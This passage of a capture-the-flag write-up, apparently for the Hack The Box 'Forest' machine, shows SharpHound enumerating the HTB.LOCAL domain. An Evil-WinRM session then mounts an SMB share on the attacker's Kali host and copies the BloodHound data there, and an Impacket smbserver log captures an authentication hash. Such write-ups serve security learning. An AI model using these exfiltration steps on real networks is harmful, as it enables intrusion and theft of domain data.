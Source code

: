 ```none
Resolved Collection Methods: Group, Sessions, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container

[+] Creating Schema map for domain HTB.LOCAL using path CN=Schema,CN=Configuration,DC=HTB,DC=LOCAL
[+] Cache File not Found: 0 Objects in cache

[+] Pre-populating Domain Controller SIDS
Status: 0 objects finished (+0) -- Using 21 MB RAM
Status: 124 objects finished (+124 41.33333)/s -- Using 27 MB RAM
Enumeration finished in 00:00:03.7526732
Compressing data to .\20200909121627_BloodHound.zip
You can upload this file directly to the UI

SharpHound Enumeration Completed at 12:16 PM on 9/9/2020! Happy Graphing!
```

I then copied the zip file created by SharpHound to the remote share on my Kali machine:

```none
*Evil-WinRM* PS C:\Windows\Temp\r0kit> $pass = ConvertTo-SecureString "h4ckit" -AsPlainText -Force
*Evil-WinRM* PS C:\Windows\Temp\r0kit> $creds = New-Object System.Management.Automation.PSCredential("r0kit",$pass)
*Evil-WinRM* PS C:\Windows\Temp\r0kit> New-PSDrive -Name r -PSProvider FileSystem -Root \\10.10.14.24\r0kit -Credential $creds


Name           Used (GB)     Free (GB) Provider      Root                                                                                                                                                                                 CurrentLocation
----           ---------     --------- --------      ----                                                                                                                                                                                 ---------------
r                                      FileSystem    \\10.10.14.24\r0kit

*Evil-WinRM* PS C:\Windows\Temp\r0kit> cp 20200909121627_BloodHound.zip r:\
```

```none
$ sudo python3 ~/tools/impacket/examples/smbserver.py r0kit shared/ -username r0kit -password h4ckit -smb2support
[sudo] password for kali:
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.161,63585)
[*] AUTHENTICATE_MESSAGE (\r0kit,FOREST)
[*] User FOREST\r0kit authenticated successfully
[*] r0kit:::4141414141414141:cca7771ab78be8ea5cb19236519945b6:01010000000000008082d239dd86d6012b5ff6c8e0002008000000000100100046004b0043007a007700440051006c000300100046004b0043007a007700440051006c00020010006e00530075005000620067006b007700040010006e00530075005000620067006b007700070008008082d239dd86d6010600040002000000080030003000000000000000000000000020000051a6d0303c9e21414254c01ec24314e2a3f6babd3ef531c9be9facccafeb95090a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0032003400000000000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:r0kit)
```
